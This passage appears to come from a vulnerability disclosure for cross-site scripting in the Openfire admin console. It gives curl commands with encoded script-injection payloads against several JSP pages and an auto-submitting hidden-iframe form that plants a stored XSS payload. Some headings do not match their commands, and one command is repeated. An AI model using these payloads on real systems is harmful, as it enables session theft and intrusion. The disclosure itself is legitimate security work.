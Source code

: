 ```
curl --data "subdomain=%22%3Escript%3Ealert%28%27XSS%27%29%3C%2Fscript%3E&componentBlocked=Block+Component" https://OpenFireServerIP:9090/connection-settings-external-components.jsp --cookie="JSESSIONID=XXX"
```

#### *mucdesc* variable from *muc-service-edit-form.jsp*

The following curl command allows reproducing the attack against the Openfire *muc-service-edit-form.jsp* page:

```
curl --data "groupchatName=%22%3E%3Cscript%3Ealert%28%27XSS%27%29%3C%2Fscript%3E&groupchatJID=%22%3E%3Cscript%3Ealert%28%27XSS%27%29%3C%2Fscript%3E%C2%B2&users=%22%3E%3Cscript%3Ealert%28%27XSS%27%29%3C%2Fscript%3E&groups=%22%3E%3Cscript%3Ealert%28%27XSS%27%29%3C%2Fscript%3E&createGroupchatBookmark=Create&type=groupchat" https://OpenFireServerIP:9090/plugins/bookmarks/create-bookmark.jsp --cookie="JSESSIONID=XXX"
```

#### *groupchatName*, *groupchatJID*, *users* and *groups* variables from page muc-service-edit-form.jsp

The following curl command allows reproducing the attack against the Openfire *muc-service-edit-form.jsp* page:

```
curl --data "groupchatName=%22%3E%3Cscript%3Ealert%28%27XSS%27%29%3C%2Fscript%3E&groupchatJID=%22%3E%3Cscript%3Ealert%28%27XSS%27%29%3C%2Fscript%3E%C2%B2&users=%22%3E%3Cscript%3Ealert%28%27XSS%27%29%3C%2Fscript%3E&groups=%22%3E%3Cscript%3Ealert%28%27XSS%27%29%3C%2Fscript%3E&createGroupchatBookmark=Create&type=groupchat" https://OpenFireServerIP:9090/plugins/bookmarks/create-bookmark.jsp --cookie="JSESSIONID=XXX"
```

#### *searchname* variable from *plugins/search/search-props-edit-form.jsp*

The following curl command allows reproducing the attack against the Openfire *plugins/search/advance-user-search.jsp* page:

```
curl "http://OpenFireServerIP:9090/plugins/search/advance-user-search.jsp?search=true&moreOptions=false&criteria=admin%22/%3E%3Cscript%3Ealert%28%27XSS%27%29%3C/script%3E&search=Search" --cookie="JSESSIONID=XXX"
```

The folling code allows exploiting the vulnerability:

```
<iframe style="display:none" name="xss-frame"></iframe>
<form id="xss-form" action="http://OpenFireServerIP:9090/plugins/search/search-props-edit-form.jsp?save" method="post" target="xss-frame" >
<input type="text" name="searchEnabled" value="true" >
<input type="text" name="searchname" value="search%22/><script>alert('XSS')</script>" >
<input type="text" name="groupOnly" value="false" >
</form>

<script>document.getElementById("xss-form").submit()</script>
```
